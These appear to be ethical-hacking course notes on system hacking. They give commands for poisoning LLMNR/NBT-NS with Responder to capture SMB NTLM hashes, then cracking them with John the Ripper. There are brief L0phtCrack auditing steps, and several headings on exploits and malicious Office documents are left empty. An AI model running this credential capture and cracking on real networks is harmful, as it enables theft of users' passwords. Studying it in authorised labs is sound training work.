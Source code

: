 # System Hacking

## Gain access to the system

### Crack the system’s password using Responder

Responder is an LLMNR, NBT-NS, and MDNS poisoner. It responds to specific NBT-NS (NetBIOS Name Service) queries based on their name suffix. By default, the tool only responds to a File Server Service request, which is for SMB.

```
cd Responder
chmod +x Responder.py
./Responder.py -I eth0
```
Goto windows machine
open run
type "\\CEH-Tools"
Go back to the linux machine

The logs are by default stored at ~/logs
```
sudo apt install john-the-ripper
sudo john ~/logs/SMB-NTLM
```
The password is now cracked!

### Audit system passwords using L0phtCrack
As an ethical hacker or penetration tester, you can use the L0phtCrack tool for auditing the system passwords of machines in the target network and later enhance network security by implementing a strong password policy for any systems with weak passwords.

* Windows
* Password Auditing Wizard button
* Follow set up steps
* Enter Admin credentials of the target machine

### Find vulnerabilities on exploit sites



### Exploit client-side vulnerabilities and establish a VNC session
### Gain access to a remote system using Armitage
### Hack a Windows machines with a malicious Office document using TheFatRat
